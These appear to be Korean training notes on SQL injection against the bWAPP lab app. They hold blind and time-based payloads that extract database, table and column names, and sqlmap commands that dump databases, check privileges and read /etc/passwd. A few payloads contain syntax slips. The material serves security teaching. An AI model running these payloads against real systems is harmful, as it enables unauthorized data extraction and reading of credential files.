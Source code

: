 
### SQL Injection 공격 - Error-Based SQL Injection

Error-Based SQL Injection?

---

### SQL Injection 공격 - Blind SQL Injection

블라인드 SQLi = 진실게임

에러베이스 - 여자친구 누구야? -> 000
블라인드 -> 여자친구 있어? -> 있어
           우리 학과생이야? -> 아니야.

' union all select 1, 2, 3, 4, 5#
' union all select 1, database(), 3, 4, 5, 6, 7#

' or 1=1 and length(database())=1#

' or 1=1 and substring(database(),1,1)='a'#
' or 1=1 and substring(database(),1,1)='b'#
' or 1=1 and ascii(substring(database(),1,1))=98#

' or 1=1 and length((select column_name from information_schema.columns where table_name='users' limit(0,1))=2#
' or 1=1 and substring((select column_name from information_schema.columns where table_name='users' limit(0,1), 1, 1)='i'#

---

### SQL Injection 공격 - Time-Based SQL Injection

' or 1=1 and length(database())=5 and sleep(1)#
' or 1=1 and length(database())=4 and sleep(1)#

' or 1=1 and length((select table_name from information_schema.tables where table_type='base table' and table_schema='bWAPP' limit 0.1))=4 and sleep(1)#

에러 베이스 -> 블라인드 -> 타임베이스

---

### SQL Injection 공격 - sqlmap 자동화 분석 - 도구 활용 (1)

sqlmap -u "http://192.168.206.154/bWAPP/sqli_13.php" --cookie="security_level=0; PHPSESSID=02f18a26a6cc850dae79f9d1faca0184" --data "movie=1&action=go" --dbs

---

### SQL Injection 공격 - sqlmap 자동화 분석 - 도구 활용 (2)

sqlmap -u "http://192.168.206.154/gm/goods_detail.php?goodsIdx=233" --tampercharencode -v3

sqlmap -u "http://192.168.206.154/gm/goods_detail.php?goodsIdx=233" --privileges

sqlmap -u "http://192.168.206.154/gm/goods_detail.php?goodsIdx=233" --file-read=/etc/passwd
